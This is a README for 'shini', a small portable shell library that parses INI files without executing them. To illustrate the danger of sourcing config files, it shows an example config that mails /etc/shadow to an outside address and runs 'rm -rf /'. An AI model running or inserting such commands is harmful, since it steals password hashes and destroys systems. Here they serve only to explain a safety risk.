 shini
=====

A small, minimialist, portable `/bin/sh` routine for reading and writing INI files.

## About

### What is `shini`?
As above.  It's a small set of functions written for inclusion in shell scripts, released under the MIT license.

### Why do I need it?
You probably don't.  But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```

Alas, bye bye shadow file - bye bye system.

`shini` only reads the file; never includes, interprets or executes it.  A better solution.

### So `shini` just makes my shell script secure?

Erm, no.  Please go away and learn to code before proceeding.

Remember:
 * Your config file must always have sane file permissions - even if its an INI file
 * `shini` is to be included in your script - so it should be located somewhere safe, and with read-only permissions

Best advice, if in doubt:

```
sudo chown root:root shini.sh
sudo chmod 644 shini.sh
```

## Usage

### Show me `shini`!

To see `shini` in action in under 2 minutes:

```
cd "$(mktemp -d -t shini)"
curl https://codeload.github.com/wallyhall/shini/tar.gz/master -o master.tar.gz
tar -xvzf master.tar.gz
chmod +x shini-master/example.sh
cd shini-master/
sh example.sh
```

You should be presented with some output like this:

```
Parsing...

  Section1.name='John Doe'
  Section1.organization='Acme Widgets Inc.'
  Section2.server='10.1.2.3'
  Section2.port='80'
  Section2.file='payroll.dat'
  Section2.this_value_was_in_hex='8739'
  Another_Section.test_key_22='test test test'
  Another_Section.var_with_leading_whitespace='value'
  Another_Section.whitespace_test='lots of whitespace'
  Another_Section.quoted_quotespace='  lots more whitespace  '
  Whitespace_Section.null_value=''

Complete.
```

You've just execute the shipped example/test script (`example.sh`) - which parses an example INI file (`example.ini`) - outputting the content in the format `[section].[key]=[value]`.

## Cool.  Now show me how to include and use it myself!

Inclusion of `shini` in your own project is easy.  You can put the content of `shini.sh` inline with your own code (not recommended, but acceptable.  Make sure you appropriately include the MIT license...), or 'source' it externally - i.e.:

```
. "$(dirname "$0")/shini.sh"
. "/usr/local/bin/shini.sh"
... etc
```

`shini` works by parsing INI files line by line - skipping comments and invoking callback functions on errors and parsed values.

If you don't care about handling parse errors (`shini` will do this for you by default) then you only need define one callback function:

```
__shini_parsed ()
{
  # "$1" - section
  # "$2" - key
  # "$3" - value
}
```

Each argument can should be carefully handled - always double quote (unless you're certain what you're doing).  Never forget you can't guraruntee what is in the INI file being parsed - it could be with evil intent.

When you're ready, invoke the parse function:

```
shini_parse "settings.ini"
```

Bingo.  A full (and simple example) can be found in `example.sh`.

### Can I override the error handling?

Yes.  Just declare any or all of the following functions:

```
__shini_parse_error $LINE_NUM "$LINE"  # Error parsing a specific line
__shini_no_file_passed                 # No filename passed to the shini_parse()
__shini_file_unreadable "$INI_FILE"    # INI file wasn't readable (or wasn't a file)
```

## Known caveats, etc

### Does `shini` follow the official INI format standards?

There are no INI format standards - so yes it does and no it doesn't?

`shini` assumes:

 * Every declaration is on a new line
 * __Sections__ are contained in square brackets, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (no spaces by default) - e.g. `[section]`
 * __Keys__ are followed by an assignment (equal) sign, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (again, no spaces by default) - e.g. `key=`
 * __Values__ follow keys, on the same line.  Anything is valid, except double quotes and semi-colons.  Hexadecimal values (i.e. `0x123`) are parsed and converted to decimal for you.
 * __Comments__ are lines starting with a semi-colon (`;`), such lines are ignored.
 * __Whitespace__ is ignored everywhere - except in between non-whitespace characters in values.  Use double quotes (`"`) to be explicit (e.g. `key=" leading/trailing WS "`)

Due to portability constraints - some of the useful regex power isn't available to `shini`.

This caused some trade-offs - with a lack of efficient control over lazy vs greedy repeats and optional groups etc, comments can only follow key/pair values and empty lines (not sections) - and where it follows values, any whitespace between the value and semi-colon is included as the value.  Explicitly use of double-quotes around the value gets around this issue.

Additionally if your key/value declaration looks like this:

```
key="value" "more text" ; comment
```

... the value reads literally:

```
"value" "more text" ; comment
```

Otherwise, all known "obviously invalid" INI content gets picked up and reported.
